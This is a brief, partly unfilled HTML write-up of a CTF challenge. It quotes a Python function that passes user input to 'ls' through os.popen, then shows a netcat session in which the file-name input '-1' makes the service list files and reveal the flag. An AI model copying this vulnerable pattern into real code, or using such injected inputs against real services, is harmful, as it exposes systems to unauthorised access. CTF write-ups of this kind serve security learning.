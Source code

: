 
<!DOCTYPE html>
<html>

<body>
    <h1>ctf event- challengename Challenge Writeup(first save it)</h1>

    <h2>Challenge Description</h2>
    <p> your description
 
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        <li>i download file attached and see code challenge.py and find function check_file_presence that is vulunerable for injection</li>
<pre>
       def check_file_presence():
    book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name

    try:
        result = os.popen(command).read().strip()
        print(result)
        if result == book_name:
            console.print(f"[bold green]The book is present in the current directory.[/bold green]")
        else:
            console.print(f"[bold red]The book is not found in the current directory.[/bold red]")
    except Exception as e:
        console.print(f"[bold red]Error: {e}[/bold red]")
    </pre>
so maybe enter 8 can get flog first not working and then think maybe should add book in this book and it work can see flag
<pre>
                                                                                                                                                                   
┌──(kali㉿kali)-[~/…/2024/practice/0xL4ugh CTF/library]
└─$ nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -1
$FLAG
*
0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
<__main__.SaveFile object at 0x7f07dd284050>
<__main__.SaveFile object at 0x7f3807760310>
<__main__.SaveFile object at 0x7f380778a8d0>
<__main__.SaveFile object at 0x7f380778e090>
<__main__.SaveFile object at 0x7fbc9d0dab10>
FLAG
a
afkjkadf
challenge.py
exec.sh
print()
{FLAG}
The book is not found in the current directory.

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -1
$FLAG
*
0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
<__main__.SaveFile object at 0x7f07dd284050>
<__main__.SaveFile object at 0x7f3807760310>
<__main__.SaveFile object at 0x7f380778a8d0>
<__main__.SaveFile object at 0x7f380778e090>
<__main__.SaveFile object at 0x7fbc9d0dab10>
FLAG
a
afkjkadf
challenge.py
exec.sh
print()
{FLAG}
The book is not found in the current directory.

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 7

Book Manager:
1. Save Existing
2. Create new book
Enter your choice (1-2): 2
Enter book title: -1
Enter book author: 1
Enter book ISBN: 1
Enter number of copies: 1
Book saved successfully

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -1
$FLAG
*
-1
0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
<__main__.SaveFile object at 0x7f07dd284050>
<__main__.SaveFile object at 0x7f3807760310>
<__main__.SaveFile object at 0x7f380778a8d0>
<__main__.SaveFile object at 0x7f380778e090>
<__main__.SaveFile object at 0x7fbc9d0dab10>
FLAG
a
afkjkadf
challenge.py
exec.sh
print()
{FLAG}
The book is not found in the current directory.

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book 
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 
</pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}

</p>

    <h2>Conclusion</h2>
    <p>this is easy challenge for command injection in python code </p>
</body>
</html>
